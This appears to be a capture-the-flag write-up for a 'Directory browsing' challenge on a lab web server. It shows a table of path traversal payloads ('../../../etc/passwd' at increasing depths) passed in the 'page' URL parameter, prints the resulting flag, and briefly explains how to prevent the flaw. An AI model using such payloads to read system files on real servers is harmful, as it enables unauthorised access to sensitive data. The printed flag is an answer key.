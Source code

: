 # <span style="text-decoration: underline"> Directory browsing </span>

- Tags : `url` , `directory` , `browsing` , `path` , `etc/passwd` , `guess`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>

___

# <span style="text-decoration: underline">problem</span>

When we go to the `signin` page we go to the **http://192.168.1.23/?page=signin** page. We can see that this url takes a parameter called `page` and the value us `signin`. When we go to the `Survey` page we can see **http://192.168.1.23/?page=survey** and again the parameter `page` and the value this time is `survey`. We can see that the value represent the page that we want to be served.

When we change the value to somethig else, for exemple to `asdasd`, we get an alert saying **`wtf ?`**. Hmm... In this particular web application it is not apparent what is happening but it seems like a middle man is serving us whatever we ask it to serv. We can find this kind of challenge in many [**ctf**](https://ctftime.org/) challenges.

When we ask it to serve `../` (parent directory) it once again shows an alert saying **`Wtf ?`**. When we ask it to serve us `../../`, it gives us an allert saying **`Wrong..`**. The answere changed. It seems like we are accessing to the parent directory, or at least it is simulating that. 

# <span style="text-decoration: underline">Solution</span>

Let's try some more parent directory and try to get the `passwd` file.

?> We are trying to get the `passwd` file because generally in `CTF` challenges we try to get this kind of files and we can always expect it to be there. In real life we would rather try to get other importent informations.

|Directory| Alert message|
|--|--|
|../etc/passwd| Wtf ?|
|../../etc/passwd| Wrong..|
|../../../etc/passwd| Nope..|
|../../../../etc/passwd|Almost. |
|../../../../../etc/passwd| Still nope.. |
|../../../../../../etc/passwd|Nope.. |
|../../../../../../../etc/passwd|Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0  |


# <span style="text-decoration: underline">How to avoid the problem</span>

This was once a real problem that destroyed many websites. It is extremely importent to restrict access of the web folder. In modern days this problem is easily avoided by putting the servers in containers but in case where we read files from our computer we should **never** go out of the dedicated directory.

# <span style="text-decoration: underline">Flag</span>

```text
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```
